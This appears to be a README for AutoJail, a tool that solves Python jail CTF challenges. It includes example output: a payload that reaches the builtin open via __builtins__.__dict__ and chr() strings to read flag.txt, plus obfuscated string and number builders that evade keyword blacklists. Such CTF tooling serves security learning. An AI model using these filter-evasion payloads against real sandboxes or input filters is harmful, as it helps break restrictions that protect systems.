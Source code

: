 # AutoJail Python

AutoJail is a tool for automatically solving python jail CTF challenges. This program takes in a blacklist/whitelist and generates valid python that evaluetes to what you want to achieve without using any blacklisted keywords or only using the whitelisted keywords.

⚠️ This project is still in development ⚠️

## Getting started

```
git pull ...
cd autojail/autojail
python main.py -h
```

## Examples

**Open a file with a blacklist**
```
python main.py -o flag.txt -b open "'" '"'
print(*__builtins__.__dict__[chr(111)+chr(112)+chr(101)+chr(110)](chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)))
```

**Generate strings**
```
python main.py --string HEI --blacklist H c ᶜ 0 7
String:  HEI 	: '%\143'%((int(not())+int(not()))**(int(not())+int(not())+int(not()))+(int(not())+int(not()))**(int(not())+int(not())+int(not())+int(not())+int(not())+int(not())))+'%\143'%(69)+'%\143'%(int(not())+(int(not())+int(not()))**(int(not())+int(not())+int(not()))+(int(not())+int(not()))**(int(not())+int(not())+int(not())+int(not())+int(not())+int(not())))
```

**Create any number using whitelist**
```
python main.py -n 22 -w 0 1 b
0b10110
```


## Usage
```
usage: main.py [-h] [-b [BLACKLIST ...]] [-w [WHITELIST ...]] [-s STRING]
               [-n NUMBER] [-o FILE_PATH]

Autojail is a tool for automatically solving python jail CTF challenges.

options:
  -h, --help            show this help message and exit
  -b [BLACKLIST ...], --blacklist [BLACKLIST ...]
                        A list of blacklisted kwds not allowed.
  -w [WHITELIST ...], --whitelist [WHITELIST ...]
                        A list of whitelisted kwds allowd to use.
  -s STRING, --string STRING
                        Create a string.
  -n NUMBER, --number NUMBER
                        Create a number.
  -o FILE_PATH, --open FILE_PATH
                        Open a file and read it.

```
